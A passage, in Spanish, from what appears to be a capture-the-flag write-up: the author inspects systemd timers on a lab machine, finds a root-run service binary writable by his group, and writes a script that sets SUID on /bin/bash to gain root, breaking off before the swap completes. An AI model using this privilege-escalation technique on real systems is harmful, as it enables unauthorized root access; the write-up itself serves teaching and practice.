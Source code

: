 ~~~bash
/usr/lib/systemd/system/phpsessionclean.timer
/usr/lib/systemd/system/fstrim.timer
/usr/lib/systemd/system/dpkg-db-backup.timer
~~~

Ahí vemos un /etc/systemd/system/activity.timer que es algo raro, vamos a inspeccionarlo:

~~~bash
melville@principle2:~$ cat /etc/systemd/system/activity.timer
[Unit]
Description=Timer 

[Timer]
Unit=activity.service
OnBootSec=10min
OnUnitActiveSec=2min

[Install]
WantedBy=timers.target
melville@principle2:~$ cat /etc/systemd/system/activity.service
[Unit]
Description=No description
Requires=network.target
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/share/report
User=root
melville@principle2:~$ ls -l /usr/local/share/report
-rwxrwx--- 1 root talos 16584 Nov 25 17:09 /usr/local/share/report
melville@principle2:~$ file /usr/local/share/report
/usr/local/share/report: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8b1c732db722b63be78e725a15d2968886f5a1d7, for GNU/Linux 3.2.0, not stripped
melville@principle2:~$ id
uid=1003(melville) gid=1003(melville) groups=1003(melville),1000(talos)
~~~

Bien, aquí tenemos la clave. Como podemos ver, ese servicio lo ejecuta root 10 min después de encenderse la máquina y después cada 2 minutos. El servicio ejecuta un script compilado, por lo que no podemos leerlo, pero tampoco nos hace falta. Como tenemos permisos de grupo con escritura de fichero vamos a intercambiarlo por uno nuestro.

Lo que haremos será crear un script que dé SUID a bash para convertirnos en root:

~~~bash
#!/bin/bash

chmod u+s /bin/bash
~~~

Lo intercambiamos y nos ponemos a revisar hasta que se convierta en SUID:
